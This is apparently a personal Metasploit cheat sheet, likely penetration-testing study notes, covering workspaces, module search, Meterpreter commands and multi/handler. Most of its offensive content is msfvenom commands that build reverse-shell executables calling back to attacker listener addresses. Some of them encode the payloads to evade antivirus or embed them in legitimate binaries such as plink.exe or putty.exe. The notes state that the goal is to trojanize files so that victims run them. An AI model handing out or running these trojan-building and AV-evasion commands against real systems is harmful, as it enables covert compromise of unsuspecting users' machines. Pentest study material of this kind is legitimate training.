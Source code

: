# MSF 

# WORKSPACES
# Create workspace
workspace -a

# Call workspaces
workspace

# Switch to workspace
workspace spaceName

## basics

//search
msf-pro > search platform:Windows
msf-pro > search type:exploit
msf-pro > search author:hd
msf-pro > search app:client
msf-pro > search name:ms08-067
//serach for contains http
grep http search type:exploit Apache


//Scanning dirs of webpages
auxiliary/scanner/http/dir_scanner

# options in module use options  to set for instance lhost, ports etc. to bypass firewalls
`options`

# payloads
in module type `show payloads` to show payloads

## Stage vs non staged payloads 

Overall there are non-staged  (pattern: linux/x86/shell_bind_ipv6_tcp) and staged (linux/x86/meterpreter/reverse_ipv6_tcp) on msf. stage will be done with a couple of smaller payloads

* settings different payload because the stage payload we provided might fail: `set payload linux/ => hit double tab`

see image ime/stagedVsNonStagedPayloads.png

# info
seach for a module and then for instance type
`info 2` to get information about the 3rd module

# check before exploit
run the `check` command before starting and exploit

# Meterpreter Payloads
Meterpreter 712 is a multi-function payload that can be dynamically extended at run-time. In practice, this means that the Meterpreter shell provides more features and functionality than a regular command shell, offering capabilities such as file transfer, keylogging, and various other methods of interacting with the victim machine.

* in module type: `search meterpreter type:payload`
* use `help` command to get information about meterperter commands
* upload files `upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\Offsec`
* download file `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`
* Can then also switch to the native shell via `shell` and then return to meterpreter by `exit`

# Executable Payloads
The Metasploit Framework payloads can also be exported into various file types and formats, such as ASP, VBScript, Jar, War, Windows DLL and EXE, and more.

let’s use the msfvenom utility to generate a raw Windows PE reverse shell executable. We’ll use the `-p` flag to set the payload, set LHOST and LPORT to assign the listening host and port, `-f` to set the output format ( exe in this case), and `-o` to specify the output file name
* `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -o shell_reverse.exe` and check file `file shell_reverse.exe`
* `-e` to encode those files to avoid AntiVirusDetection: `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe`
* Another useful feature of Metasploit is the ability to inject a payload into an existing PE file, which may further reduce the chances of AV detection by: `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe`

# Metasploit Exploit Multi Handler (if f.e.: we do not want to user NC)
used Netcat to catch standard reverse shells, such as those generated by the windows/shell_reverse_tcp payload, but might not work for some machines.
* we should use the framework `multi/handler` module, which works for all single and multi-stage payloads
 `use multi/handler` =>  `set payload windows/meterpreter/reverse_https` => `exploit`

# Adding custom modules

https://fmash16.github.io/content/writeups/hackthebox/htb-Passage.html

1) with searchsploit you can download file (see reconainssance)
2) save file in for instance:  /home/kali/.msf4/modules/exploits/cgi/webapps/ => having [exploits] or [auxilliary] is important
3) in msf reload modules by reload_all
4) custom module should appear

=> logs can be checked under: /home/kali/.msf4/logs/
![stagedVsNonStagedPayload](img/stagedVsNonStagedPayload.png)

# msfvenom (file generation)
* When we have secure systems (so system does not have known vulnurabilities), we can create trojans and make somebody open it.
* we can use msfvenom to generate malicous file for f.e: exe, apk, py, etc. The process is that we generate this trojan and once somebody exexutes this file we will have a connection to the victim.

Example: 
`/usr/bin/msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.5 LPORT=5555 -f exe -o sampleTrojan.exe`
but you can also encode it and attach it to a valid programm (like f.e.: putty.exe with -x)

Set up connection with msfconsole `use exploit/multi/handler`
## Virustotal toe check if payloads got recongized: https://www.virustotal.com/gui/



